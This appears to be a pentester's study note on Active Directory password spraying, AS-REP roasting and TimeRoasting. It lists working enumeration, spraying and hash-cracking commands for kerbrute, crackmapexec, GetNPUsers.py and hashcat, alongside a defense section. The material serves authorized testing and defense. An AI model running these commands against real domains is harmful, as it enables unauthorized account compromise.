

# 19 - Password Spraying and Pre-Authentication Attacks

## 1. Executive Summary

Before delegation and certificate tricks, you need a foothold — and the most reliable one in AD is still **weak credentials**. **Password spraying** tries one or a few common passwords (`Season+Year!`, `CompanyName1`) across **many** accounts to avoid lockout, often yielding a valid domain user from an unauthenticated position. Kerberos pre-auth quirks add credential-free angles: **AS-REP Roasting** (accounts with pre-auth disabled leak crackable hashes — see A-36) and **TimeRoasting** (MS-SNTP lets you request authenticator material for computer accounts and crack them offline, no domain creds needed). Together these are the standard "get the first valid login" toolkit.

## 2. Concept Overview

AD authentication exposes oracles: **Kerberos pre-auth** (AS-REQ) reveals valid-vs-invalid usernames and timing; accounts without `DONT_REQ_PREAUTH`-cleared... (i.e. with pre-auth **disabled**) return an AS-REP encrypted with the user's key → **AS-REP roast**. **TimeRoasting** abuses the MS-SNTP extension where a DC returns data keyed with a computer account's RC4 key → offline crack. Spraying just leverages weak password policy + many accounts.

## 3. Enumeration (build the user list)

```bash
# Valid usernames via Kerberos pre-auth (no creds)
kerbrute userenum -d domain --dc <dc> users.txt
# From a null/low-priv bind
lookupsid.py domain/user:pw@<dc>           # RID cycling → users
enum4linux-ng -A <dc>
# Check lockout policy first!
crackmapexec smb <dc> -u user -p pw --pass-pol
```

## 4. Exploitation

```bash
# Password spraying (respect lockout: 1 pw per window across all users)
kerbrute passwordspray -d domain --dc <dc> users.txt 'Spring2025!'
crackmapexec smb <dc> -u users.txt -p 'Welcome1' --continue-on-success
nxc ldap <dc> -u users.txt -p passwords.txt --no-bruteforce

# AS-REP roasting (accounts with pre-auth disabled)
GetNPUsers.py domain/ -usersfile users.txt -no-pass -dc-ip <dc>      # → $krb5asrep$ hashes
hashcat -m 18200 asrep.txt wordlist

# TimeRoasting (computer accounts, no domain creds)
python timeroast.py <dc-ip> -o timeroast.hashes
hashcat -m 31300 timeroast.hashes wordlist
```
> Spraying can lock accounts — always read the lockout policy and pace below threshold; on engagements, coordinate timing.

## 5. Mermaid Attack Flow



## 6. Post-Access Direction
- A single valid user unlocks BloodHound collection ([[18 - ADWS Enumeration and BloodHound]]) → the rest of the kill chain.

## 7. Defense & Hardening
1. Strong password policy + **banned-password lists** (kill seasonal/company passwords); **MFA**; smart lockout / monitor for spraying (many accounts, 1 attempt).
2. Eliminate accounts with **Kerberos pre-auth disabled** (AS-REP); patch/monitor TimeRoasting (restrict MS-SNTP); strong computer-account passwords.
3. Alert on enumeration (kerbrute/RID cycling), failed-auth spikes across many accounts, AS-REP requests.

## 8. Chaining & Related Notes
- AS-REP detail: **[[05 - AS-REP Roasting]]** (A-36); post-foothold roasting: **[[04 - Kerberoasting]]** (A-36).
- Next step: **[[18 - ADWS Enumeration and BloodHound]]**.

## 9. Related Notes
- Network auth services: **[[06 - SMB (Ports 139-445) Pentesting]]**, **[[09 - Kerberos (Port 88) Pentesting]]**.

## 10. Tools
`kerbrute`, `crackmapexec`/`nxc`, `GetNPUsers.py`, `lookupsid.py`, `timeroast.py`, `hashcat`, `enum4linux-ng`.
